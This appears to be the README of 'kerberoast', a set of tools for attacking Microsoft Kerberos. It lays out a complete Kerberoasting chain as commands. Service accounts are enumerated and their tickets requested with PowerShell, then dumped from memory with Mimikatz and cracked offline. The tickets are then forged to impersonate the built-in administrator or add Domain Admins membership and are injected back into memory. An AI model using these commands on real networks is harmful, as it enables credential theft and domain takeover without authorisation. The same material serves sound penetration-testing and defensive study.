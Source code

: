 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
```
PS C:\> setspn -T medin -Q */*
```

Request Ticket(s)
-----------------
One ticket:  
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  
```

All the tickets
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
```
mimikatz # kerberos::list /export
```

Crack with tgsrepcrack
----------------------
```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

Rewrite
-------
Make user appear to be a different user  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  
```
Inject back into RAM with Mimikatz
----------------------------------
```
kerberos::ptt sql.kirbi
```

